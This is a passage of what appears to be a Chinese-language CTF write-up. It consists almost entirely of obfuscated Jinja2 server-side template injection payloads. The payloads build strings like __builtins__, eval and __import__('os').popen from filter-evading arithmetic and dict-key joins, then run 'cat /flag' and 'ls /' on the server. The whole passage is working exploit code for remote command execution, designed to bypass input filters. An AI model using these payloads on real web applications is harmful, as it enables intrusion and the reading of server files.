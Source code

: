 ```python
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}

# 最后的payload如下:
{% set zero = (self|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set three = five-one-one %}{% set nine = (two*two*two*two-five-one-one) %}{% set seven = (zero-one-one-five)|abs %}{% set space = self|string|min %}{% set point = self|float|string|min %}{% set c = dict(c=aa)|reverse|first %}{% set bfh = self|string|urlencode|first %}{% set bfhc = bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set yin = bfhc%((three~nine)|int) %}{% set xhx = bfhc%((nine~five)|int) %}{% set right = bfhc%((four~one)|int) %}{% set left = bfhc%((four~zero)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set so = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx~xhx~but~xhx~xhx %}{% set ini = dict(ini=aa,t=bb)|join %}{% set glo = dict(glo=aa,bals=bb)|join %}{% set itm = dict(ite=aa,ms=bb)|join %}{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in (self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}{% if f == bul %}{% for a,b in (v|attr(itm))() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}


# ls /
{% set zero = (g|int) %}
{% set one = (zero**zero)|int %}
{% set two = (zero-one-one)|abs %}
{% set four = (two*two)|int %}
{% set five = (two*two*two)-one-one-one %}
{% set three = five-one-one %}
{% set nine = (two*two*two*two-five-one-one) %}
{% set seven = (zero-one-one-five)|abs %}
{% set space = g|string|min %}
{% set point = g|float|string|min %}
{% set c = dict(c=aa)|reverse|first %}
{% set bfh = g|string|urlencode|first %}
{% set bfhc = bfh~c %}
{% set slas = bfhc%((four~seven)|int) %}
{% set yin = bfhc%((three~nine)|int) %}
{% set xhx = bfhc%((nine~five)|int) %}
{% set right = bfhc%((four~one)|int) %}
{% set left = bfhc%((four~zero)|int) %}
{% set but = dict(buil=aa,tins=dd)|join %}
{% set imp = dict(imp=aa,ort=dd)|join %}
{% set pon = dict(po=aa,pen=dd)|join %}
{% set so = dict(o=aa,s=dd)|join %}
{% set ca = dict(ca=aa,t=dd)|join %}
{% set flg = dict(fl=aa,ag=dd)|join %}
{% set ev = dict(ev=aa,al=dd)|join %}
{% set red = dict(re=aa,ad=dd)|join %}
{% set bul = xhx~xhx~but~xhx~xhx %}
{% set ini = dict(ini=aa,t=bb)|join %}
{% set glo = dict(glo=aa,bals=bb)|join %}
{% set itm = dict(ite=aa,ms=bb)|join %}
{% set ls = dict(l=aa,s=bb)|join %}
{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ls~space~slas~yin~right~point~red~left~right %}

{% for f,v in (whoami|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}
    {% if f == bul %} 
        {% for a,b in (v|attr(itm))() %}
            {% if a == ev %}
                {{b(pld)}}
```